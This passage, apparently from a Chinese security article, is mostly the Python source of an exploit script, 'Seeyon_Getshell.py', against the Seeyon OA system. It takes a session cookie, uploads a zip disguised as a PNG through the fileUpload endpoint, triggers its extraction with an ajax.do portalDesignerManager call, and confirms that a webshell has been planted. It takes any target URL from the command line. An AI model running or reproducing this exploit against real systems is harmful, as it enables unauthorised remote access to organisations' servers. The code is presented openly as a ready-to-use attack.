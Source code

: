 ```
        cookies = requests.utils.dict_from_cookiejar(cookie)
        jsessionid = cookies['JSESSIONID']
        file_zip()
        print( '获取cookie成功---->> '+jsessionid)
        fileurl = urllist+'/seeyon/fileUpload.do?method=processUpload&maxSize='
        headersfile = {'Cookie': "JSESSIONID=%s" % jsessionid}
        post = {'callMethod': 'resizeLayout', 'firstSave': "true", 'takeOver': "false", "type": '0',
                'isEncrypt': "0"}
        file = [('file1', ('test.png', open(mm+'.zip', 'rb'), 'image/png'))]
        filego = requests.post(url=fileurl,data=post,files=file, headers=headersfile)
        time.sleep(2)
    else:
        print('获取cookie失败')
        exit()
    if filego.text:
        fileid1 = re.findall('fileurls=fileurls\+","\+\'(.+)\'', filego.text, re.I)
        fileid = fileid1[0]
        if len(fileid1) == 0:
            print('未获取到文件id可能上传失败！')
        print('上传成功文件id为---->>:'+fileid)
        Date_time = time.strftime('%Y-%m-%d')
        headersfile2 = {'Content-Type': 'application/x-www-form-urlencoded','Cookie': "JSESSIONID=%s" % jsessionid}
        getshellurl = urllist+'/seeyon/ajax.do'
        data = 'method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%22' + Date_time + '%22%2C%22' + fileid + '%22%5D'
        getshell = requests.post(url=getshellurl,data=data,headers=headersfile2)
        time.sleep(1)
        webshellurl1 = urllist + '/seeyon/common/designer/pageLayout/' + webshell_name1
        shelllist = requests.get(url=webshellurl1)
        if shelllist.status_code == 200:
            print('利用成功webshell地址：'+webshellurl1)
        else:
            print('未找到webshell利用失败')
def main():
    if (len(sys.argv) == 2):
        url = sys.argv[1]
        Seeyon_Getshell(url)
    else:
        print("python3 Seeyon_Getshell.py http://xx.xx.xx.xx")
if __name__ == '__main__':
    main()
```

原文链接:

```
https://www.ailiqun.xyz/2021/04/10/%E8%87%B4%E8%BF%9COA-%E7%BB%84%E5%90%88getshell/
```

****【往期推荐】****  
